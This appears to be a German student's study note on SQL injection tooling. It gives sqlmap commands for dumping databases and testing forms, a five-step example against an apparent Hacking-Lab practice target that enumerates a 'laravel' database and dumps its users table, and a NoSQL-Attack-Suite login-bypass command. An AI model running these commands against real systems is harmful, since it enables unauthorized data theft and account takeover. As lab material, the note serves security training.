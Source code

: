 - Datenbanktabellen in CSV exportieren
```
sqlmap.py -u [GET-URL] -D [Databasename] --dump-all --batch
```

- Formularfelder automatisiert testen und Tabellen anzeigen lassen
```
sqlmap.py -u [GET-URL] --tables --forms --batch
```

### Beispiel
1. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann --dbs
```

![[CleanShot 2022-09-07 at 11.17.29.png]]

2. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel --tables
```

![[CleanShot 2022-09-07 at 11.21.10.png]]

3. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel -T users --columns
```

![[CleanShot 2022-09-07 at 11.28.57.png]]

4. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel -T users -C emails --dump
```

![[CleanShot 2022-09-07 at 11.42.15.png]]

5. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel -T users --dump
```

![[CleanShot 2022-09-07 at 12.00.18.png]]

## [No-SQL-Attack Suite](https://github.com/C4l1b4n/NoSQL-Attack-Suite)
- Python Script für automatisierte Angriffe auf NoSQL

### Syntax
- Login Bypass
```
python3 nosql-login-bypass.py -t [POST-URL] -u customer0 -p compass
```
